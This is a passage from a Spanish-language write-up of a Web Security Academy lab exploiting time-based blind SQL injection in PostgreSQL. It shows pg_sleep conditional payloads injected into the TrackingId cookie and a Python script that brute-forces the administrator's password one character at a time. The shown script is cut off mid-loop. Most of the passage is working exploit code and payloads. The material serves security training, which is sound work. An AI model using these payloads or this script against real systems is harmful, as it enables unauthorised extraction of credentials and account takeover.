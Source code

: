 Con esto comprobamos que la contarseña tenga 20 caracteres, si va bien tardara 10 segundos en respondernos...

```mysql
'||(select case when substring(username,1,1)='a' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -;
```

Con esto comprobamos que vaya esta mecanica de comprobar letras por filas, con el nombre de usuario, ya que se cumple la comparacion de que el `username` `administrator` empieza por la letra `a` tardara 10 segundos en respondernos la pagina por lo que funciona, ahora lo mismo pero con la `password` implementandolo en el script...

```mysql
'||(select case when substring(password,1,1)='a' then pg_sleep(10) else pg_sleep(0) end from users where username='administrator')-- -;
```

Ahora todo esto lo vamos a implementar en el script de `python3` quedando de la siguiente manera...

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a6600b9032c16a080e253b500290045.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "fdDQYd0euaN829vd'||(select case when substring(password,%d,1)='%s' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -" % (position, character),
                                'session': 'BbXQwHYZxUm7EVaew4zA2uNgh4QKq8hi'
                        }

                        p1.status(cookies['TrackingId'])

                        time_start = time.time()

                        r = requests.get(main_url, cookies=cookies)

                        time_end = time.time()

                        if time_end - time_start > 1.5: #Comparacion si el tiempo que tarda es mayor que 1.5 es la correcta
```